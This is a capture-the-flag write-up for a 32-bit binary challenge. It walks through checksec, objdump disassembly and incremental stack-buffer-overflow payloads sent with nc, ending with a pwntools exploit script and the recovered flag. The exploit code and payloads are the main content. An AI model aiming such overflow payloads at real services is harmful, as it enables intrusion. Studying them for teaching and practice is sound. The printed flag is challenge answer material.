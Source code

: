 Are you awake?
20

Are you awake?

nc areyouawake.chals.fuzzy.land 5503


Solution
========

First of all, let's analyze the binary file:
```
$ file awake
awake: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=759b6f50dbea9e6924bab76a7add1c4bf121e5c2, not stripped
```
```
$ checksec awake
[*] 'awake'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
It's a 32bit Linux ELF binary with stack protection disabled ("No canary found")
but with a non-executbale stack ("NX enabled"). Furthermore the file is
little-endian ("LSB executable"). That's already some usefull
information, so let's now find out what the program does. We execute the program and enter ```yes```:

```
$ nc areyouawake.chals.fuzzy.land 5503
```
```
Are you awake? yes
Nope, you are still sleeping! (0xdeadbeef)
😴
```
The program gives us a hint: ```(0xdeadbeef)```.
Obviously there's a variable which stores the value ```0xdeadbeef``` which we
might have to change to some specific value in order to get the flag. Since we
don't have the source code available, we have to disassemble the binary:

```
$ objdump -d awake
```
```
0804854b <check_awake>:
 804854b:	55                   	push   %ebp
 804854c:	89 e5                	mov    %esp,%ebp
 804854e:	83 ec 08             	sub    $0x8,%esp
 8048551:	83 ec 0c             	sub    $0xc,%esp
 8048554:	68 d0 86 04 08       	push   $0x80486d0
 8048559:	e8 72 fe ff ff       	call   80483d0 <printf@plt>
 804855e:	83 c4 10             	add    $0x10,%esp
 8048561:	a1 40 a0 04 08       	mov    0x804a040,%eax
 8048566:	83 ec 04             	sub    $0x4,%esp
 8048569:	50                   	push   %eax
 804856a:	68 28 01 00 00       	push   $0x128
 804856f:	ff 75 08             	pushl  0x8(%ebp)
 8048572:	e8 69 fe ff ff       	call   80483e0 <fgets@plt>
 8048577:	83 c4 10             	add    $0x10,%esp
 804857a:	90                   	nop
 804857b:	c9                   	leave
 804857c:	c3                   	ret

0804857d <func>:
 804857d:	55                   	push   %ebp
 804857e:	89 e5                	mov    %esp,%ebp
 8048580:	81 ec 88 00 00 00    	sub    $0x88,%esp
 8048586:	83 ec 08             	sub    $0x8,%esp
 8048589:	68 28 01 00 00       	push   $0x128
 804858e:	8d 85 78 ff ff ff    	lea    -0x88(%ebp),%eax
 8048594:	50                   	push   %eax
 8048595:	e8 b1 ff ff ff       	call   804854b <check_awake>
 804859a:	83 c4 10             	add    $0x10,%esp
 804859d:	8b 45 08             	mov    0x8(%ebp),%eax
 80485a0:	3d be ba fe ca       	cmp    $0xcafebabe,%eax
 80485a5:	75 2a                	jne    80485d1 <func+0x54>
 80485a7:	83 ec 0c             	sub    $0xc,%esp
 80485aa:	68 e0 86 04 08       	push   $0x80486e0
 80485af:	e8 3c fe ff ff       	call   80483f0 <puts@plt>
 80485b4:	83 c4 10             	add    $0x10,%esp
 80485b7:	83 ec 0c             	sub    $0xc,%esp
 80485ba:	68 29 87 04 08       	push   $0x8048729
 80485bf:	e8 3c fe ff ff       	call   8048400 <system@plt>
 80485c4:	83 c4 10             	add    $0x10,%esp
 80485c7:	83 ec 0c             	sub    $0xc,%esp
 80485ca:	6a 01                	push   $0x1
 80485cc:	e8 3f fe ff ff       	call   8048410 <exit@plt>
 80485d1:	8b 45 08             	mov    0x8(%ebp),%eax
 80485d4:	83 ec 08             	sub    $0x8,%esp
 80485d7:	50                   	push   %eax
 80485d8:	68 38 87 04 08       	push   $0x8048738
 80485dd:	e8 ee fd ff ff       	call   80483d0 <printf@plt>
 80485e2:	83 c4 10             	add    $0x10,%esp
 80485e5:	83 ec 0c             	sub    $0xc,%esp
 80485e8:	68 5e 87 04 08       	push   $0x804875e
 80485ed:	e8 fe fd ff ff       	call   80483f0 <puts@plt>
 80485f2:	83 c4 10             	add    $0x10,%esp
 80485f5:	83 ec 0c             	sub    $0xc,%esp
 80485f8:	6a 00                	push   $0x0
 80485fa:	e8 11 fe ff ff       	call   8048410 <exit@plt>

080485ff <main>:
 80485ff:	8d 4c 24 04          	lea    0x4(%esp),%ecx
 8048603:	83 e4 f0             	and    $0xfffffff0,%esp
 8048606:	ff 71 fc             	pushl  -0x4(%ecx)
 8048609:	55                   	push   %ebp
 804860a:	89 e5                	mov    %esp,%ebp
 804860c:	51                   	push   %ecx
 804860d:	83 ec 04             	sub    $0x4,%esp
 8048610:	a1 44 a0 04 08       	mov    0x804a044,%eax
 8048615:	6a 00                	push   $0x0
 8048617:	6a 02                	push   $0x2
 8048619:	6a 00                	push   $0x0
 804861b:	50                   	push   %eax
 804861c:	e8 0f fe ff ff       	call   8048430 <setvbuf@plt>
 8048621:	83 c4 10             	add    $0x10,%esp
 8048624:	83 ec 0c             	sub    $0xc,%esp
 8048627:	68 ef be ad de       	push   $0xdeadbeef
 804862c:	e8 4c ff ff ff       	call   804857d <func>
 8048631:	83 c4 10             	add    $0x10,%esp
 8048634:	b8 00 00 00 00       	mov    $0x0,%eax
 8048639:	8b 4d fc             	mov    -0x4(%ebp),%ecx
 804863c:	c9                   	leave
 804863d:	8d 61 fc             	lea    -0x4(%ecx),%esp
 8048640:	c3                   	ret
 8048641:	66 90                	xchg   %ax,%ax
 8048643:	66 90                	xchg   %ax,%ax
 8048645:	66 90                	xchg   %ax,%ax
 8048647:	66 90                	xchg   %ax,%ax
 8048649:	66 90                	xchg   %ax,%ax
 804864b:	66 90                	xchg   %ax,%ax
 804864d:	66 90                	xchg   %ax,%ax
 804864f:	90                   	nop
 ```
In the disassembly of ```<main>``` we can see a function call to ```<func>``` with one
function argument: ```0xdeadbeef```:
```
8048627:	68 ef be ad de       	push   $0xdeadbeef
804862c:	e8 4c ff ff ff       	call   804857d <func>
```

The disassembly of ```<func>``` tells us, that the function argument (in this particular case it's 0xdeadbeef) is then compared with the hard coded value 0xcafebabe:
```
...
80485a0:	3d be ba fe ca       	cmp    $0xcafebabe,%eax
...
```
Let's see if we can change the variable's content from 0xdeadbeef to something
else:
```
$ python -c 'print "A"*142' | nc areyouawake.chals.fuzzy.land 5503
Are you awake? Nope, you are still sleeping! (0xdeadbeef)
😴
```
Hm, nothing happened so far. But what if we add another A to the payload?
```
$ python -c 'print "A"*143' | nc areyouawake.chals.fuzzy.land 5503
Are you awake? Nope, you are still sleeping! (0xdeadbe00)
😴
```
Here we go! We just successfully modified the value from ```0xdeadbeef``` to ```0xdeadbe00```. That's most likely caused by the NULL termination of the C library function ```fgets()``` which reads in our input. The call to function fgets() can be found in the disassembly of the function ```<check_awake>```...
```
 8048572:	e8 69 fe ff ff       	call   80483e0 <fgets@plt>
 ```
...which in turn is called within function ```<func>```:
```
 8048595:	e8 b1 ff ff ff       	call   804854b <check_awake>
```
So let's continue to add some more A's to our payload:
```
$ python -c 'print "A"*144' | nc areyouawake.chals.fuzzy.land 5503
Are you awake? Nope, you are still sleeping! (0xdead000a)
😴
$ python -c 'print "A"*145' | nc areyouawake.chals.fuzzy.land 5503
Are you awake? Nope, you are still sleeping! (0xde000a41)
😴
$ python -c 'print "A"*146' | nc areyouawake.chals.fuzzy.land 5503
Are you awake? Nope, you are still sleeping! (0xa4141)
😴
$ python -c 'print "A"*147' | nc areyouawake.chals.fuzzy.land 5503
Are you awake? Nope, you are still sleeping! (0xa414141)
😴
$ python -c 'print "A"*148' | nc areyouawake.chals.fuzzy.land 5503
Are you awake? Nope, you are still sleeping! (0x41414141)
😴
```
Now we have completely overwritten the variable and therefore replaced the value ```0xdeadbeef``` with our A's which are represented by the ASCII hex code 0x41. 

In the beginning we found out that the binary is 32 bit. 8 bits are 1 byte. And each one of our A's is 1 byte as well. Therefore 4 A's form a 32 bit address. 
In order to get the flag, all we have to do is to replace ```0x41414141``` with the previously gathered value ```0xcafebabe```. As mentioned earlier, the binary is little-endian. Therefore we have to store the 4 bytes in reverse order. So 0xca 0xfe 0xba 0xbe becomes 0xbe 0xba 0xfe 0xca:
```
$ python -c 'print "A"*144 + "\xbe\xba\xfe\xca"' | nc areyouawake.chals.fuzzy.land 5503
Are you awake? Oh, good morning :)
What better way to start the day than with a flag ;)
LosCTF{s0me_s4y_y0u_c0uldve_d0ne_th1s_wh1le_sl33p1ng}
```
This can even be simplified by using the [packing](http://docs.pwntools.com/en/stable/util/packing.html#module-pwnlib.util.packing) function of the so-called [pwntools](https://github.com/Gallopsled/pwntools) Python library:
```
#!/usr/bin/python

import pwn
import struct

p = pwn.remote( "areyouawake.chals.fuzzy.land", 5503 )
#p = pwn.process( "./awake" )

payload = "A" * 144
payload += pwn.p32( 0xcafebabe )

print( p.recv() )
p.sendline( payload )
print( p.recv() )
print( p.recv() )
```
```
$ python exploit.py
[+] Opening connection to areyouawake.chals.fuzzy.land on port 5503: Done
Are you awake?
Oh, good morning :)
What better way to start the day than with a flag ;)

LosCTF{s0me_s4y_y0u_c0uldve_d0ne_th1s_wh1le_sl33p1ng}

[*] Closed connection to areyouawake.chals.fuzzy.land port 5503
```
That's it.
